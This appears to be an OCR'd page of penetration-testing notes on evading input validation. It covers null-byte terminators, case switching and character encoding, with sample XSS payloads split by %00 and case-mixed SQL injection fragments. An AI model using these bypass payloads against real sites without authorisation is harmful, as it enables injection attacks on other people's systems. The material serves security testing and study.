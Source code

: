 - If the null byte is processed by a backend program thatvalidates user input, that validation program could be bypassed because itstops processing the input.

string terminators you can use
```
%00
0x00
//
;
%
!
?
[]
%5B%5D
%09
%0a
%0b
%0c
%0e

````

Can be placed in **different parts** of the request to attempt to bypass any restrictions in place,

```xml
{
"uname": "<s%00cript>alert(1);</s%00cript>"
"email": "hapi@hacker.com"
}

<--! We can even use it more than once on the same place : >

{
"uname": "<s%000000cript>alert(1);</s%000000cript>"
"email": "hapi@hacker.com"
}
```

Wordlist
```json
~/tools/SecLists-2023.2Fuzzing/Metacharacters.fuzzdb.txt
```

### 2 - Case Switching 

```json
<sCriPt>alert('supervuln')</scrIpT>
SeLeCT * RoM all_tables
sELecT @@vErSion
```
### 3 -  Encoding 

When encoding, focus on the characters that may be blocked, such as
these:
```json
< > ( ) [ ] { } ; ' / \ |
```
